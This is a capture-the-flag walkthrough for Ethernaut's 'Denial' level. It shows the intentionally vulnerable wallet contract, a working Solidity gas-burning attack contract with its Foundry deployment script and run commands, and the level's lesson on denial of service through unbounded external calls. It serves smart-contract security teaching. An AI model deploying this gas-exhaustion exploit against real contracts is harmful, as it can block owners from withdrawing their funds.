# Level 20 - Denial ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/20" %}

### Level Setup

{% hint style="info" %}
This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Denial.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-20

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-20

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/26ebb8956b333626f21e90a270ad87a258233f49/src/Level20.sol" %}

{% code title="src/Level20.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                        LEVEL 20 - DENIAL                     │
// ================================================================
contract AttackContract {
    uint256 counter;

    function burn() internal {
        while (gasleft() > 0) {
            counter += 1;
        }
    }

    receive() external payable {
        burn();
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/26ebb8956b333626f21e90a270ad87a258233f49/script/Level20.s.sol" %}

{% code title="script/Level20.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level20.sol";

// ================================================================
// │                        LEVEL 20 - DENIAL                     │
// ================================================================
interface IDenial {
    function withdraw() external;
    function setWithdrawPartner(address _partner) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IDenial denial = IDenial(targetContractAddress);

        vm.startBroadcast();
        denial.setWithdrawPartner(address(new AttackContract()));
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

_Note_: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
{% endhint %}
